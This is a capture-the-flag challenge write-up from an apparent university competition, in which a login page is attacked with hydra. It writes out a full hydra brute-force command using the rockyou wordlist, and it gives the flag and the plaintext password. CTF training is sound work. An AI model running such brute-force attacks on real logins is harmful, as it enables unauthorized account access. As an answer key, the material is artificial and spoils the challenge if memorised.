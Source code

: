 # 3Head Red

Description:

You trying to obtain information on the whereabouts of all the blackwidows, but the login is password protected!

Can you help smadi get in, we wouldnt want hydra to obtain this information!

All you know is the username: admin.

## Solution

1. **Step 1**: Open the website in a web browser and explore
2. **Step 2**: attempt a login and notice that you need the password!
3. **Step 3**: Use hydra to brute force the directories (https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/)
4. **Step 4**: The command looks like this: `hydra -l admin -P ./rockyou.txt dd14f2de-cf5e-4255-913f-37b5bedabce4.challenges.htu.edu.jo http-post-form "/index.php:username=admin&password=^PASS^:Invalid username or password. Please try again"`
5. **Step 5**: enter username and password in the website

The flag for this challenge is `HTU{dId_BlAck_wid0w_jU$t_b0w_t0_hydra?}`

## Lessons Learned

It is anticipated that the competitor will learn about hydra.

## notes

This is a docker container. Also, automated tools are allowed. Should take approximatley 20 minutes. The correct password is `salvatrucha`
